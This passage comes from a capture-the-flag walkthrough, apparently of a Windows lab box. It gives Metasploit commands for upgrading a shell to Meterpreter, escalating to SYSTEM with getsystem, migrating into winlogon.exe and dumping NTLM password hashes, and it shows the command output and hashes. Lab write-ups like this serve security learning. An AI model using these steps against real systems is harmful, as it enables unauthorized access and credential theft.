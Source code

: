 **Q2: What option are we required to change?**
* `show options`

The option needed to be configured is **Session**.

**Q3: Set the required option.**

In order to know which session needs to be escalated. we can type the command:
* `sessions -l`

now that we know what session needs to be escalated. set the required option:
* `set session <session_number>`

```
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connectio
                                       n
   LHOST                     no        IP of host that will receive the connection from the pa
                                       yload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf6 post(multi/manage/shell_to_meterpreter) > 
```

**RUN THE EXPLOIT**

**Q4: Once the meterpreter shell conversion completes, select that session for use.**
* You can select this by using the command: `sessions <session_number>`

**Q5: Verify that we have escalated to 'NT AUTHORITY\SYSTEM'**
* Run the command: `getsystem`

*The process that I migrated to is the winlogon.exe process. Which had the process number 660.*

#### Task 4: Cracking

**Q1: What is the name of the non-default user?**
* run the command: `hashdump`
```
meterpreter > migrate 660
[*] Migrating from 1312 to 660...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter > 
```
The user is **Jon**.

**Q2: What is the cracked password?**
